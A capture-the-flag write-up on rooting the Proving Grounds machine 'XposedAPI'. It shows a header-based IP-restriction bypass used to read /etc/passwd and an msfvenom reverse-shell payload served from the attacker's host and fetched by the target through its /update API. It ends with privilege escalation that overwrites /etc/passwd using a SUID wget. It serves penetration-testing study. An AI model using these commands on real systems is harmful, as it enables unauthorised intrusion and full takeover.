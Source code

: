 ```yaml
---
title: "XposedAPI - PG"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2022-01-16 07:07:10 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, API, SUID, wget]
render_with_liquid: false
---
```


## Recon & Enumeration

```
# autorecon
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN full_tcp_nmap.txt 192.168.123.134
```

```
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
13337/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
|_http-title: Remote Software Management API
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.32 or 3.10 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%)
```

---

## Exploitation

- http://192.168.123.134:13337/logs 
- WAF: Access Denied for this Host.
- Google: WAF Access Denied for this Host bypass 
- https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c 
- `X-Forwarded-For:127.0.0.1` header 

```
GET /logs?file=/etc/passwd HTTP/1.1
Host: 192.168.123.134:13337
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<--SNIP-->
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```

- We get the username: `clumsyadmin`
- Now our POST request works and we get a shell as user `clumsyadmin` once we restart the app by visiting `/restart`

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.123 LPORT=22 -f elf -o shell
python3 -m http.server 80
nc -lvnp 22
```

```
POST /update HTTP/1.1
Host: 192.168.123.134:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
DNT: 1
Sec-GPC: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 60

{"user":"clumsyadmin", "url":"http://192.168.49.123/shell"} 
```

---

## Privilege Escalation 

- `find / -perm -4000 2>/dev/null`
- Privilege Escalation with wget SUID 
- `wget` has SUID bit set so we can use that to edit and replace `/etc/passwd` file with password for `root` user 
- Download the `/etc/passwd` file from the target and add some password hash for root user 
- `openssl passwd pass123 => Xh/bM.jezOXCo`
- `wget 192.168.49.123/passwd -O /etc/passwd`
- `su root => pass123`
- `whoami => root`

```
root@xposedapi:~# 
whoami && hostname && id && ifconfig | grep inet && cat proof.txt
root
xposedapi
uid=0(root) gid=0(root) groups=0(root)
        inet 192.168.123.134  netmask 255.255.255.0  broadcast 192.168.123.255
        inet 127.0.0.1  netmask 255.0.0.0
a82b28951444346478fab645553f55
```

